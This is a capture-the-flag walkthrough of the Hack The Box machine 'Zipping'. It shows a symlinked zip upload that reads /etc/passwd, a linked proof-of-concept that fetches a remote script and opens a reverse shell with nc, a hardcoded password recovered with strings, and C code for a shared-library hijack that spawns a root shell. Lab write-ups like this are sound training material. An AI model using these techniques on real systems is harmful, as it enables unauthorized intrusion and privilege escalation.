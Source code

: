 In the webapp we found an exploitable upload function in http://10.10.11.229/upload.php.
We can exploit through symbolic link files. For this we will create a symbolic link pdf file and compress it to zip

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Zipping-10.10.11.229]
└─$ ln -s ../../../../../../../../etc/passwd document.pdf

┌──(kali㉿kali)-[~/Documents/Boxes/Zipping-10.10.11.229]
└─$ zip --symlinks passwd.zip document.pdf
  adding: document.pdf (stored 0%)
```
  
Then we can upload the zip file and we will see the content in the request

![[Pasted image 20231115113420.png]]

In this way we retrieve the user flag. Now we tried fuzzing important files but nothing came. We found another exploitable vulnerability in http://10.10.11.229/shop/index.php to exploit with **[this exploit](https://raw.githubusercontent.com/saoGITo/HTB_Zipping/main/HTB_Zipping_poc.py)

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Zipping-10.10.11.229]
└─$ python3 HTB_Zipping_poc.py 10.10.14.23 9001
[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp 9001
[+] Write php shell /var/lib/mysql/rvsl5815.php
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
[+] Get Reverse Shell
10.10.11.229 - - [15/Nov/2023 14:08:47] "GET /revshell.sh HTTP/1.1" 200 -

--------------

┌──(kali㉿kali)-[/usr/share/seclists/Fuzzing/LFI]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.229] 51768
bash: cannot set terminal process group (1151): Inappropriate ioctl for device
bash: no job control in this shell

rektsu@zipping:/var/www/html/shop$ whoami
rektsu
```

Once we got a shell, we find that we can execute the binary stock with sudo privileges

```bash
rektsu@zipping:/tmp$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
rektsu@zipping:/tmp$ sudo /usr/bin/stock
Enter the password: ^C
```

But the binary file is asking for a password. We can check the strings of the binary and find some info

```bash
rektsu@zipping:/tmp$ strings /usr/bin/stock 
[...SNIP...]
Hakaize
St0ckM4nager
/root/.stock.csv
Enter the password: 
Invalid password, please try again.
[...SNIP...]
```

We try with St0ckM4nager and it works

```bash
rektsu@zipping:/tmp$ sudo /usr/bin/stock    
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

```

Now with strace we can study the execution of the binary

```bash
rektsu@zipping:/tmp$ strace /usr/bin/stock 

[...SNIP...]

write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
write(1, "\n================== Menu ======="..., 44
================== Menu ==================
) = 44
write(1, "\n", 1
)                       = 1
write(1, "1) See the stock\n", 171) See the stock
)      = 17
write(1, "2) Edit the stock\n", 182) Edit the stock
)     = 18
write(1, "3) Exit the program\n", 203) Exit the program
)   = 20
write(1, "\n", 1
)                       = 1
write(1, "Select an option: ", 18Select an option: )      = 18
read(0,
```

It is trying to execute file `/home/rektsu/.config/libcounter.so` but is missing, lets try to bypass the library. Following the `Linux Privilege Escalation` module of HTB Academy (`Shared Libraries` section) we can spawn a root bash with the following code

```C
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 

void _init() { 
	unsetenv("LD_PRELOAD"); 
	setgid(0); 
	setuid(0); 
	system("/bin/bash"); 
}
```

We compile and execute and we are root

```bash
rektsu@zipping:/tmp$ cd /home/rektsu/.config/

rektsu@zipping:/tmp$ gcc -fPIC -shared -o libcounter.so root.c -nostartfiles
root.c: In function ‘_init’:
root.c:7:4: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    7 |    setgid(0);
      |    ^~~~~~
root.c:8:4: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    8 |    setuid(0);
      |    ^~~~~~
      
rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

root@zipping:/home/rektsu/.config# whoami
root
```
